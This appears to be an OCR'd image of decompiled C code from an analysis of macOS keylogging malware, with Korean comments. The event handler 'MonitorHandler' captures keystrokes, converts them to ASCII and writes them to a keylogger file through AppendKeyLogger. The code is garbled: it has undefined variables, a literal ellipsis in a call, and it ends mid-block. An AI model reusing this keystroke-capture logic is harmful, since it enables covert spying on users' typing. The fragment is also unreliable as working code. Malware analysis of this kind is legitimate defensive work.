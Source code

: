 int MonitorHandler(int a1, EventRef theEvent)
{
	UInt32 eventClass = GetEventClass(theEvent);
	UInt32 result;
	if(eventClass == kEventClassMouse) // Mouse
	{
		if(GetEventKind(theEvent) == kEventMouseMoved) // 마우스가 이동하는 경우
			// 마우스의 현재 위치 정보를 가져옴
			GetEventParameter(theEvent, kEventParamMouseLocation, typeQDPoint, NULL, sizeof(result), NULL, &amp;result);
	}
	else
	{
		if(eventClass == kEventClassTablet) // tablet
		{
			GetEventKind(theEvent);
			return 0;
		}
		if(eventClass == kEventClassKeyboard) // keyboard
		{
			UInt32 eventKind = GetEventKind(theEvent);
			if(eventKind == kEventRawKeyRepeat) // 키가 반복되서 눌릴 경우(키보드를 누르고 있는 경우)
			{
				GetEventParameter(theEvent, kEventParamKeyCode, typeUInt32, NULL, sizeof(result), NULL, &amp;result);
				Virtual2Ascii(result, &amp;v7);
				return 0;
			}
			if(eventKind == kEventRawKeyDown) // 키가 눌린 경우
			{
				// 키 코드를 가져와서 ASCII 코드로 변환 후, 키로거 파일에 추가
				GetEventParameter(theEvent, kEventParamKeyCode, typeUInt32, NULL, sizeof(result), NULL, &amp;result);
				Virtual2Ascii(MonitorHandler::state, ..., &amp;v7);
				AppendKeyLogger(v7, 1);
				return 0;
			}
			if(eventKind == kEventRawKeyUp) // 키가 UP된 경우
			{
				GetEventParameter(theEvent, kEventParamKeyCode, typeUInt32, NULL, sizeof(result), NULL, &amp;result);
				Virtual2Ascii(result, &amp;v7);
				return 0;
			}
			if(eventKind == kEventRawKeyModifiersChanged) // 다른 키를 누르는 경우
			{
				GetEventParameter(theEvent, kEventParamKeyModifiers, typeUInt32, NULL, sizeof(result), NULL, &amp;result);
				MonitorHandler::state = v5;
			}
